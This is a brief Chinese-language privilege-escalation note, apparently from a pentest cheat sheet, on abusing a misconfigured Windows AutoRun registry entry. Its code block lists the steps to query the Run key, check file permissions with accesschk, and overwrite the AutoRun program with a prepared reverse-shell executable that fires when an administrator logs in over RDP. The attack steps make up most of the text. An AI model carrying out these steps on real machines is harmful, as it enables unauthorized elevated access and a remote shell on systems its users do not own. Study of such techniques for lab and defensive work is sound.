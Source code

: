 # 注册表配置错误-自动运行

原理：Windows 可以配置为在启动时以提升的权限运行命令。这些“自动运行”在注册表中配置。如果您能够写入 **AutoRun 可执行文件**，并且能够重新启动系统（或等待它重新启动），可能能够提升权限

```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run  //查询autorun中哪些可以自动运行
accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"  //查看用户对文件的权限，结果发现用户可以完全访问文件
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y   //复制创建的反向shell并将它覆盖 AutoRun 的可执行文件
需要等待管理员进行登录rdp 后shell才会被弹出
```